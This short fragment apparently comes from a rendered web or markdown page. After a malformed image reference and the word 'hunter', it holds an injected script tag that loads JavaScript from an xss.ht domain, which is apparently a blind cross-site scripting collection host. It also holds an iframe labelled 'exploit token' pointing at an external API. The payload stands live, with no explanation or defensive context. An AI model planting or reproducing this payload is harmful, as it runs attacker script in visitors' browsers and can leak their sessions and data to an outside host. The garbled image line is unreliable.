 # hunter


<script src='https://ynafiai.xss.ht' ></script>
<iframe alt='exploit token' frameborder='0' height='600' scrolling='auto' src='https://api.ext.prod.honeycomb.io/api' width='480'></iframe>

